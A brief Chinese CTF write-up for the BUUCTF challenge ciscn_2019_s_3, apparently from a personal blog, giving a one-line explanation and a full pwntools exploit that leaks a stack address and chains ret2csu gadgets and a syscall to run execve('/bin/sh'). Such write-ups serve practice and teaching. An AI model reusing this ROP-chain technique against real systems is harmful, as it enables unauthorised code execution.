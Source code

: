 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_s_3)

这是一道retcsu题，利用syscall和rop使execve('/bin/sh',0,0)条件成立

有两种方法

# exp

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('node5.buuoj.cn',28262)
#p=process('./ciscn_s_3')
elf=ELF('./ciscn_s_3')
pop_rdi=0x4005a3	#rdi = 0
pop_rsi_r15=0x4005a1	#rsi = 0
pop_rdx_6=0x40059A	#csu第一段函数
mov_rdx_0=0x400580	#csu第二段函数，里面有call r12的函数
mov_rax_0x3b=0x4004E2	#程序给的系统调用函数,mov rax,0x3b ret
syscall=0x400517
vuln_addr=elf.sym['vuln']

payload1=flat(b'/bin/sh\x00',cyclic(0x8),p64(vuln_addr))#由于没有pop rbp，直接覆盖到old_rbp就可以，所有少了8字节
p.send(payload1)
p.recv(0x20)
bin_sh=u64(p.recv(8))-0x118 #泄露/bin/sh的真实地址
print(hex(bin_sh))

payload2=flat(b'/bin/sh\x00',cyclic(0x8),p64(pop_rdx_6),0,0,p64(bin_sh+0x50),0,0,0,p64(mov_rdx_0))
#bin_sh+0x50是对于下面pop_rdi=0x4005a3地址的偏移，call的push下一地址会和执行的pop_rdi相互抵消了，所有实际上就是绕过了call函数，继续执行下面的函数
payload2+=flat(p64(pop_rdi),p64(bin_sh),p64(pop_rsi_r15),0,0,p64(mov_rax_0x3b),p64(syscall))
p.send(payload2)
p.interactive()
```

